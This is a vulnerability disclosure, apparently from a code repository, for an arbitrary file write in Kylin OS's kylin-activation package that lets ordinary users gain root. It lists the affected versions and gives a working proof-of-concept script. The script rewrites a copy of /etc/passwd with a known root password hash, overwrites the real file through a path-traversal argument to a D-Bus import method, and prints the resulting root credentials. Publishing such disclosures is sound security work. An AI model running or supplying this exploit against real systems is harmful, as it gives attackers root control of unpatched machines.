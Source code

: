 # kylin-activation arbitrary file writing vulnerability

Author: Set3r.Pan\
Unit: Kylin Software Co., Ltd.（https://www.kylinos.cn/）
## report
### Describe
The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.
### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
